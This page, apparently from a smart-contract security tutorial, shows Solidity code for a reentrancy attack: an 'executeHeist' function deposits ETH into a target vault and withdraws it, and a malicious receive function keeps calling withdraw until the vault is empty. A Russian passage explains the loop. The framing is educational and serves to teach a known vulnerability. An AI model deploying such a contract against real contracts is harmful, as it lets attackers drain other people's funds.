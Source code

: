 ```solidity
function executeHeist() external payable {
    require(
        msg.sender == traitor,
        "Only the traitor can execute the heist!"
    );
    require(
        msg.value >= 1 ether,
        "The heist requires at least 1 ETH to proceed!"
    );

    emit BankDebug(
        "Heist begins: depositing funds into the vault",
        msg.value,
        address(targetVault).balance
    );

    targetVault.deposit{value: msg.value}();

    emit BankDebug(
        "Funds deposited, preparing for reentrancy attack",
        msg.value,
        address(targetVault).balance
    );

    heistInProgress = true;

    targetVault.withdraw(msg.value);

    heistInProgress = false;
}
```

В этом эксплойте функция receive во вредоносном контракте стратегически используется для перехвата передачи эфира во время процесса вывода средств. 
Это позволяет злоумышленнику многократно вызывать функцию withdraw уязвимого контракта каждый раз, когда вредоносный контракт получает эфир. Таким образом, атака зацикливается, 
истощая баланс хранилища до полного исчерпания.

Вот реализация функции receive во вредоносном контракте, демонстрирующая, как она поддерживает цикл атаки:

```solidity
receive() external payable {
    emit FallbackTriggered(
        "Receive triggered during heist",
        msg.value,
        address(targetVault).balance
    );

    if (heistInProgress && address(targetVault).balance > 0) {
        targetVault.withdraw(1 ether); // Продолжаем выводить средства небольшими частями
    }
}
```
